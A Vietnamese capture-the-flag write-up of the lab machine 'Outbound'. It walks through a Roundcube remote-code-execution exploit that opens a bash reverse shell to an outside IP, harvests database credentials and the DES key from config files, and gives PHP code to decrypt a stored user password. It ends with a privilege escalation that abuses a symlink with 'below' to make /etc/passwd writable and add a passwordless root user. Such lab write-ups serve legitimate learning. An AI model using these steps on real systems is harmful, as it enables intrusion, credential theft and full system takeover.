

# outbound

Date de création: August 10, 2025 9:18 PM

1. Khi vào web, mình thấy đây là một trang liên quan đến mail, sử dụng roundcubin. Vì vậy mà mình đã tìm kiếm với từ khóa “roundcube cve rce” và ra được 

https://github.com/hakaioffsec/CVE-2025-49113-exploit

1. Tiếp theo là làm theo hướng dẫn và rce thành công. File cve là mình lấy code từ file php ở repo.
    
    ```bash
    php cve http://mail.outbound.htb/ tyler LhKL1o9Nm3X2 "bash -c '/bin/bash -i >& /dev/tcp/10.10.14.18/4444 0>&1'" 
    ```
    
2. Vì người dùng khi mình rev shell chỉ là system user (`uid=33(www-data) gid=33(www-data) groups=33(www-data)` ) vì thế nên là người dùng này khó leo quyền lên root vì vậy mà trước hết cần tìm credentials của user nào đó ngon hơn. Mà cũng vì người dùng này quyền thấp nên chắc chắn chỉ có thể tìm thông tin trong file nào đó ví dụ như trong file conf của web từ đó có thể truy cập database, biết key mã hóa và có thể có log user sẽ chứa mật khẩu. Trước hết là check file conf, sử dụng lệnh sau:
    
    ```bash
    cat /var/www/html/roundcube/config/config.inc.php
    ```
    
    Sau đó, thì lấy được thông tin sau: 
    
    
    
    Thực hiện kết nối đến cơ sở dữ liệu, nhận thấy thành công. Thực select dữ liệu nhận thấy trả về session của user `jacob`, thực hiện decode được giá trị sau:
    
    
    
    Tất nhiên đây là mật khẩu hash. Vậy thì để giải mã cần biết là backend dùng thuật toán gì, key nào. Và chúng ta có thể tìm thấy trong file conf, lấy được key:
    
    
    
    Giờ cần code decrypt, mình tạo lại từ đây: [roundcubemail/program/lib/Roundcube/rcube.php at master · roundcube/roundcubemail · GitHub](https://github.com/roundcube/roundcubemail/blob/master/program/lib/Roundcube/rcube.php#L845) và được đoạn code sau (tất nhiên có 1 chút sự trợ giúp từ (các)anh):
    
    ```php
    <?php
    
    /**
     * Decrypt Roundcube 3DES-CBC-encrypted password using OpenSSL.
     *
     * @param string $base64_cipher Base64 encoded encrypted string (from session)
     * @param string $des_key 24-byte key from $rcmail_config['des_key']
     * @return string|false Decrypted password or false if decryption fails
     */
    function roundcube_decrypt_3des_openssl($base64_cipher, $des_key)
    {
        // Decode base64
        $cipher = base64_decode($base64_cipher);
        if ($cipher === false) {
            return false;
        }
    
        $iv_size = 8; // 3DES CBC IV is 8 bytes
        $iv = substr($cipher, 0, $iv_size);
        $ciphertext = substr($cipher, $iv_size);
    
        // Ensure key is 24 bytes (for 3DES)
        $key = str_pad(substr($des_key, 0, 24), 24, "\0");
    
        // Decrypt using OpenSSL
        $plaintext = openssl_decrypt(
            $ciphertext,
            'DES-EDE3-CBC',     // 3DES in CBC mode
            $key,
            OPENSSL_RAW_DATA,
            $iv
        );
    
        if ($plaintext === false) {
            return false;
        }
    
        // Trim null padding and canary byte at the end
         echo '_____' . $plaintext . '_________';
        // $plaintext = substr(rtrim($plaintext, "\0"), 0, -1);
    
        return $plaintext;
    }
    
    // ============================================
    // Example usage
    
    // From your Roundcube config
    $des_key = 'rcmail-!24ByteDESkey*Str'; // ← your real 24-byte key
    
    // From MySQL session `vars` column (after extracting password value)
    $encrypted_base64 = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"; // ← your actual encrypted base64 string
    
    $decrypted_password = roundcube_decrypt_3des_openssl($encrypted_base64, $des_key);
    
    if ($decrypted_password !== false) {
        echo "Decrypted password: " . $decrypted_password . PHP_EOL;
    } else {
        echo "Decryption failed." . PHP_EOL;
    }
    
    ```
    
    Và mình lấy được password 595mO8D*****. Vậy thì thử `su` jacob được không. Và hãy nhớ chúng ta chỉ đang ở trong một container. Sau đó mình thành đổi sang user jacob và đọc mail, từ đó lấy được pass để ssh. Mật khẩu là ….
    
    Ok giờ thì mình xem có thể leo quyền bằng cách nào?
    
    Dùng `sudo -l` , nhận thấy có lệnh below có thể chạy sudo mà không cần pass.
    
    
    
    Và mình lại search thì tìm được cve này **CVE-2025-27591** và sử dụng đoạn shell này là có thể leo quyền thành công [CVE-2025-27591/CVE-2025-27591.sh at main · obamalaolu/CVE-2025-27591 · GitHub](https://github.com/obamalaolu/CVE-2025-27591/blob/main/CVE-2025-27591.sh)
    
    
    
    Tuy nhiên thì mình nghe nói cve dễ thực hiện nên cũng thử tự làm thay vì dùng shell sẵn.
    
    Thì below sẽ hoạt động theo cách là sẽ tạo một thư mục có thể ghi trên toàn cục dù thư mục đó đã tồn tại thì nó sẽ set lại full quyền cho nó:
    
    ```rust
     if perm.mode() & 0o777 != 0o777 {
            perm.set_mode(0o777);
            match dir.set_permissions(perm) {
                Ok(()) => {}
                Err(e) => {
                    bail!(
                        "Failed to set permissions on {}: {}",
                        path.to_string_lossy(),
                        e
                    );
                }
            }
        }
    ```
    
    Thì khi tạo 1 symlink trỏ đến /etc/passwd mà below gọi đến symlink này, nó sẽ set quyền cho /etc/passwd luôn dẫn đến người dùng thường cũng có quyền ghi. Source code của below ở đây https://github.com/facebookincubator/below/blob/v0.8.1/below/src/main.rs#L379
    
    Vậy thì mình cũng có thể tự thực hiện:
    
    1. Ban đầu file /etc/passwd không có quyền đọc bởi user thường:
        
        
        
    2. Tiếp đến là tạo symlink:
        
        ```bash
        ln -s /etc/passwd /var/log/below/error_root.log
        ```
        
        Và kiểm tra tạo thành công không:
        
        
        
    3. Thực hiện chạy below để nó gọi đến error_root.log nhưng thực tế là gọi đến /etc/passwd và set thêm quyền cho /etc/passwd (ở bài này chỉ set là 0666).
        
        
        
        Tạo symlink
        
        ```bash
        ln -sf /etc/passwd /var/log/below/error_root.log
        ```
        
        Chạy `below` với quyền `sudo`
        
        ```bash
        sudo below
        ```
        
        Nhận thấy user có thể ghi file /etc/passwd. Việc còn lại là ghi text sau vào /etc/passwd:
        
        Tạo mật khẩu hash, trực tiếp ghi vào /etc/passwd.
        
        ```bash
        datht::0:0:root:/root:/bin/bash
        ```
        
        